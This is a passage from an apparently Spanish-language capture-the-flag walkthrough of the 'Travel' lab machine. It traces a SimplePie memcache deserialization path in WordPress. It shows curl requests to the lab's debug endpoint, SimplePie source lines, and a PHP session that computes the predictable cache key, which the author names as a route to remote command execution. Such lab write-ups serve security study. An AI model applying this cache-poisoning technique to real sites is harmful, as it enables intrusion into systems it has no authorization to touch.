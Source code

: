 Descargo el customfeed exitente y lo cargo desde mi equipo que está compartido en un servicio HTTP con python. En caso de volver a cargar el de por defecto, obtengo los dos customfeeds

```null
curl -s -X GET http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
| xct_ade330c3b8(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
 ```

En caso de que pueda controlar el output serializado que me devuelve este script en PHP, podría obtener una ejecución remota de comandos. Se está importando un archivo que se encarga de deserializar la data

```null
require_once ABSPATH . '/wp-includes/class-simplepie.php';   
```

Es un archivo estandar que puedo encontrar en internet. Filtro por MD5, y encuentro una función que lo contempla

```null
public $cache_name_function = 'md5';
```
```null
public function __toString()
{
	return md5(serialize($this->data));
}
```

Y también por ```cache_name_function```

```null
$cache = $this->registry->call('Cache', 'get_handler', array($this->cache_location, call_user_func($this->cache_name_function, $file->url), 'spc'));
```

Le está pasando a la función ```call_user_func``` un cadena en MD5, que corresponde al ```cache_name_function``` y una URL. En el mismo repositorio de Github busco por el script que controla el ```memcache```. En concreto es el ```wp-includes/SimplePie/Cache/Memcache.php```

```null
$this->name = $this->options['extras']['prefix'] . md5("$name:$type");
```

La cadena que se transforma a MD5 está compuesta por dos variables. Una de nombre y otra de tipo. En el otro script se le estaba pasando la cadena 'spc'. Lo simulo con PHP

```null
curl -s -X GET 'http://blog.travel.htb/awesome-rss/?debug=test'
curl -s -X GET http://blog.travel.htb/wp-content/themes/twentytwenty/debug.php
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
```

```null
php --interactive
Interactive shell

php > echo "xct_" . md5(md5("http://www.travel.htb/newsfeed/customfeed.xml") . ":spc");
xct_4e5612ba079c530a6b1f148c0b352241
```
